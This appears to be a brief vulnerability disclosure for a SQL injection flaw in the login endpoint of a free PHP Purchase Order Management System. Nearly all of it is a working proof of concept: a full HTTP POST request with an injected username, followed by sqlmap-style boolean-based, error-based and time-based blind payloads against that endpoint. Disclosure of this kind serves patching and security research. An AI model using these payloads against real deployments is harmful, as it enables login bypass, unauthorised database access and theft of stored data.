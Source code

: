 ## Purchase Order Management System has SQL injection vulnerability
vendor: https://www.sourcecodester.com/php/14935/purchase-order-management-system-using-php-free-source-code.html

Vulnerability file: /purchase_order/classes/Login.php
![image](https://user-images.githubusercontent.com/80438059/164885270-15b0d1fc-3adf-4162-8afb-886f999224eb.png)
Vulnerability location: /purchase_order/classes/Login.php?f=login //username is Injection point
```
POST /purchase_order/classes/Login.php?f=login HTTP/1.1
Host: localhost
Content-Length: 44
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/purchase_order/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fipkbpl70m5ol078ohb2d50ais
Connection: close

username=admin'and 1=1 --+&password=admin123
```
[+]Payload: 
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 7306=7306 AND 'KUHr'='KUHr&password=admin123

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 6871 FROM(SELECT COUNT(*),CONCAT(0x7171717a71,(SELECT (ELT(6871=6871,1))),0x7178766271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'cGqF'='cGqF&password=admin123

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 9249 FROM (SELECT(SLEEP(5)))tmUV) AND 'cjHA'='cjHA&password=admin123
---
```

![image](https://user-images.githubusercontent.com/80438059/164885401-545b57bb-4b17-427a-a79c-27eb50cdec61.png)

